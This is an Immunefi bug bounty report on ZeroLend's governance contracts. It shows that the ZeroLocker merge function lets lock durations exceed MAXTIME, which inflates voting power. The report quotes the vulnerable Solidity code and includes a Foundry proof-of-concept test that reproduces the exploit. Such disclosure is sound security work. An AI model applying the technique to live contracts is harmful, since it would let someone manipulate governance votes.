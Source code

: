 
# ZeroLocker:merge can make a voting lock last longer than MAXTIME and inflate voting power

Submitted on Thu Feb 29 2024 19:23:04 GMT-0400 (Atlantic Standard Time) by @g10v1 for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28892

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
I have previously reported an issue called  "ZeroLocker:merge can make a voting lock last longer than 4 years" as a primary medium-severity issue at Cantina's contest as there wasn't a voting power calculation function at that codebase. I am reporting it again as the impact at the codebase in Immunefi's scope is higher and presents a significance for the voting mechanics.
## Brief/Intro

The BaseLocker contract allows users to merge two different locks and end up with a lock that has a longer than MAXTIME difference between the end time and start time. This inflates the calculation of voting power for locks and give them an unfair advantage on governance.

## Vulnerability Details
The merge method enables a user to bypass the MAXTIME requirement by creating two different locks that last MAXTIME, one at Time0 and the second one some time later at Time1 then merging with the first lock as the merge target (or **to** argument) at the merge call:
```solidity
function merge(uint256 _from, uint256 _to) external override {
```

As the merge function at the BaseLocker contract does not check whether the end minus the locked0.start is not greater than MAXTIME, it enables arbitrary-sized lock durations:
```solidity
LockedBalance memory _locked0 = locked[_from];
        LockedBalance memory _locked1 = locked[_to];
        uint256 value0 = uint256(int256(_locked0.amount));
        uint256 end = _locked0.end >= _locked1.end
            ? _locked0.end
            : _locked1.end;

        locked[_from] = LockedBalance(0, 0, 0, 0);

        _burn(_from);
        _depositFor(_to, value0, end, _locked1, DepositType.MERGE_TYPE);
```

The depositFor internal method updates the lock, but it doesn't check the end timestamp and the start timestamp difference either, the only sanity check is in regards to unlockTime != 0:
```solidity
if (_unlockTime != 0) lock.end = _unlockTime;
```

This enables calculatePower to utilize a numerator bigger than MAXTIME, inflating locks amounts voting power:
```solidity
function _calculatePower(
        LockedBalance memory lock
    ) internal view returns (uint256) {
        return ((lock.end - lock.start) * lock.amount) / MAXTIME;
    }
```

## Impact Details
The whole voting mechanics is spoofed as merging allows users to have voting powers bigger than the maximum possible for the amounts deposited. This effectively makes governance a game of merging locks at the last possible moment before a voting start in order to have ever-increasing voting powers.
## References
Snippet in which merge doesn't check the total duration of the lock: https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L180C8-L185C28
CalculatePower internal method: https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L112C4-L117C1
        
## Proof of concept
### PoC
Set up foundry on hardhat by placing
```solidity
import "@nomicfoundation/hardhat-foundry";
```
at the hardhat.config.ts file. Don't forget to install "@nomicfoundation/hardhat-foundry".
Then install foundry at the contracts folder with the following command:
```solidity
forge init --force
```

Install openzeppelin contracts at foundry:
```solidity
forge install Openzeppelin/openzeppelin-contracts@v5.0.1 --no-commit
forge install OpenZeppelin/openzeppelin-contracts-upgradeable --no-commit
```

Place the following code-snippet at the Test.t.sol file inside the test folder:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {console} from "../../lib/forge-std/src/console.sol";
import {StdInvariant} from "../../lib/forge-std/src/StdInvariant.sol";
import {LockerLP} from "../../locker/LockerLP.sol";
import {Test} from "../../lib/forge-std/src/Test.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MintableERC20 is ERC20 {
    address public owner;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "MintableERC20: caller is not the owner");
        _;
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract ZeroLendTest is StdInvariant, Test {

    LockerLP lockerLP;
    MintableERC20  arbitraryToken;
    address user = makeAddr("user");
    address public configurator = makeAddr("configurator");
    uint256 internal WEEK;
    uint256 internal MAXTIME;

    function setUp() public {
        vm.prank(configurator);
        arbitraryToken = new MintableERC20("Arbitrary Token", "ATKN");
        vm.prank(configurator);
        arbitraryToken.mint(user, 1 ether);


        vm.prank(configurator);
        lockerLP = new LockerLP();

        lockerLP.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        WEEK = 1 weeks;
        // MAXTIME is set to 1 year as it is the value set at the initialization of the LockerLP contract
        MAXTIME = 365 * 86400;

    }
 
    function test_poc() public {

        vm.prank(user);
        arbitraryToken.approve(address(lockerLP), 1 ether);

        uint256 unlockTime0 = ((block.timestamp + MAXTIME) / WEEK) * WEEK; // Locktime is rounded down to weeks
        vm.prank(user);
        lockerLP.createLock(0.5 ether, unlockTime0, false);

        // pass some time
        vm.warp(block.timestamp + WEEK);

        uint256 unlockTime1 = ((block.timestamp + MAXTIME) / WEEK) * WEEK - 100; // Locktime is rounded down to weeks
        vm.prank(user);
        lockerLP.createLock(0.5 ether, unlockTime1, false);

        vm.prank(user);
        lockerLP.merge(2, 1);

        (uint256 amountLocked, uint256 end, uint256 start,) = lockerLP.locked(1);
        // check if amount locked is 1 ether
        require(amountLocked == 1 ether, "wrong amount locked");

        // check the difference between the end and the start 
        require(end - start > MAXTIME, "lock duration is not over 1 year");
       
        // check if voting power is bigger than what should be possible
        uint256 maxVotingPower = MAXTIME * amountLocked / MAXTIME;
        uint256 currentVotingPower = (end - start) * amountLocked / MAXTIME;
        require(currentVotingPower > maxVotingPower, "current voting power is not bigger than maximum expected value");
    }

}
```